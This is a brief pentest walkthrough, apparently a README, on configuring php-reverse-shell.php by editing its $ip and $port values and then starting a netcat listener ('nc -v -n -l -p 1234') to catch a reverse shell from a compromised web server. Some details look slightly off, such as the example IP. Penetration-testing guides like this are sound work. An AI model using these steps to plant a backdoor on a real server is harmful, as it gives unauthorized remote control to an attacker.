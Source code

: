 # Walk Through
- [x] **Modify the source**
- To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:
______________
| Variable      | Default                | Personal?                       |
| ------------- |:----------------------:| -------------------------------:|
| $ip           | __170.0.0.1__          | Edit __line 7__                 |
| $port         | __1234__               | Edit __line 4__                 |
______________

- [x] **Get Ready to catch the reverse shell**
- Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

```
remember$ nc -v -n -l -p 1234
```

